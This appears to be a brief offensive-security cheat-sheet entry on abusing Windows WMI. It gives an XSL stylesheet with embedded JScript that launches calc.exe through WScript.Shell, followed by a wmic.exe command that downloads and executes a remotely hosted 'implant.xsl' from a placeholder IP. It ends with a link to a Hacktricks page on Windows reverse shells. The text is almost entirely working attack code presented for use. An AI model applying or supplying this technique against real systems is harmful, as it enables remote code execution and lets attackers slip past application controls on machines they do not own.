 # WMI

```xml
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
	]]> </ms:script>
</stylesheet>
```

Execute a script contained in the target `.xsl` file hosted on a remote server.

```
C:\> wmic.exe process get brief /format:"http[s]://<IP>[:PORT]/implant.xsl"
```

---
## References

### Hacktricks

- [Hacktricks: Windows Reverse Shells](https://book.hacktricks.wiki/en/generic-methodologies-and-resources/reverse-shells/windows.html)